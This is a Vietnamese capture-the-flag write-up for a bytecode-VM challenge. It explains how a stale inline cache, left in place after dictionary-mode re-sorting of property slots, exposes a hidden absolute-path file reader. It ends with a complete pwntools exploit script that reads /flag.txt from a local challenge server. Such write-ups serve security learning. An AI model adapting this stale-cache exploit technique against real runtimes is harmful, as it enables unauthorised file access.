






# Bring Your Own Program



Bài này là một máy ảo VM chạy bytecode viết bằng JavaScript bị obfuscate. Bạn gửi vào stdin một chương trình bytecode dạng hex, VM sẽ parse + validate rồi chạy trong sandbox/ VM có hệ object model, property lookup, inline cache (để tăng tốc), và capability system để hạn chế I/O.

Lỗ hổng nằm ở inline cache: cache cũ sau khi object đổi chế độ lưu thuộc tính, khiến VM lấy nhầm slot và truy cập được hàm đọc được flag.

1) Nhìn từ docker file mục tiêu là đọc được file /flag.txt

Vấn đề chính là chúng ta không có quyền đọc.

Sử dụng AI để deobfuscated file js chúng ta có cái nhìn cơ bản về VM như sau.

VM dùngg các property key là số. Có 1 tập ```VALID_KEYS``` chỉ cho phép truy cập 1 số key nhất định (ví dụ 1,2,3,4,10,11)



Và key dùng cho việc đọc file public là 0xa = 10. Vấn đề là trong code có key ẩn với hàm readAbsoluteFile (đọc bất kì file nào ở đường dẫn tuyệt đối).





Rồi tiếp theo chúng ta cần hiểu format của bytecode VM trước khi tìm cách hoạt động theo ý chúng ta muốn.




Vấn đề VM kiểm tra thuộc tính kiểu slots và shape map 

Mỗi ngăn chứa giá trị của thuộc tính 

Mỗi shape map chứa index

Ví dụ object base IO lúc ban đầu

- Shape map: {10 -> slot 0, 0 -> slot 1}
- Slots: [readPublicFile, readAbsoluteFile] 

=> Muốn lấy VM key 10, VM nhìn thấy map thấy slot 0 rồi lấy slots[0]

Lỗ hổng ở inline cache 

VM tối ưu nhanh: Lần đầu hỏi key 10 ở đâu tại instruction này, với shape này, key = 10 thì nằm ở slot = 0, lần sau gọi nó không tìm nữa mà lấy thẳng slot 0.

VM có 2 chế độ lưu thuộc tính 

(1) Shape mode 

Có shape map key -> slot ổn định 

(2) Dictionary mode

1. Lấy danh sách [key,value]
2. Sort theo key tăng dần
3. Xây lại slots veo thứ tự đã sort

Sau khi sort và rebuild slots[], VM không cập nhật shape map.

Trước dict:
Shape map {10 -> 0, 0 -> 1}
Slots [public, absolute]

Sau dict:
Shape map: không đổi
Slots [absolute, public]

VM có cơ chế check cache nhưng đã không hoạt động đúng.

```Python
from pwn import *
import struct

HOST = '127.0.0.1'
PORT = 5000
context.log_level = 'info'

def compile():
    LDG, KCONST, GETOWN, GETMETH = 0x02, 0x01, 0x20, 0x21
    CALL, RET, ADD, JMP, JNZ, OPTIMIZE = 0x30, 0x31, 0x40, 0x60, 0x61, 0x70
    KEY_IO, KEY_READ_PUBLIC = 3, 10
    def i16(n):
        return struct.pack('<h', n)
    prog = bytes([0x08, 0x03])
    prog += bytes([0x02, 0x04, 0x00]) + b"caps"           # c0: "caps"
    prog += bytes([0x01]) + struct.pack('<d', 1.0)        # c1: 1.0 (IEEE 754)
    prog += bytes([0x02, 0x09, 0x00]) + b"/flag.txt"      # c2: "/flag.txt"
    code = b""
    code += bytes([LDG, 0x00, 0x00])                      #  0: r0 = caps
    code += bytes([GETOWN, 0x01, 0x00, KEY_IO])           #  3: r1 = caps.io
    code += bytes([KCONST, 0x06, 0x01])                   #  7: r6 = 1.0
    code += bytes([KCONST, 0x07, 0x02])                   # 10: r7 = "/flag.txt"
    code += bytes([GETMETH, 0x02, 0x03, 0x01, KEY_READ_PUBLIC])  # 13: IC site
    code += bytes([JNZ, 0x05]) + i16(10)                  # 18: if r5 goto 32
    code += bytes([OPTIMIZE, 0x01, KEY_READ_PUBLIC])      # 22: vuln: repack by ascending keyId without bump
    code += bytes([ADD, 0x05, 0x06, 0x06])                # 25: r5 = 2 (truthy)
    code += bytes([JMP]) + i16(-19)                       # 29: goto 13
    code += bytes([CALL, 0x04, 0x02, 0x03, 0x01, 0x07])   # 32: r4 = fn("/flag.txt")
    code += bytes([RET, 0x04])                            # 38: return r4

    return prog + code


def solve(host, port):
    payload = compile()
    log.info(f"Payload ({len(payload)} bytes): {payload.hex()}")
    io = remote(host, port)
    io.sendline(payload.hex().encode())
    flag = io.recvline().decode().strip()
    log.success(f"Flag: {flag}")
    io.close()
    return flag

if __name__ == '__main__':
    solve(HOST, PORT)
```

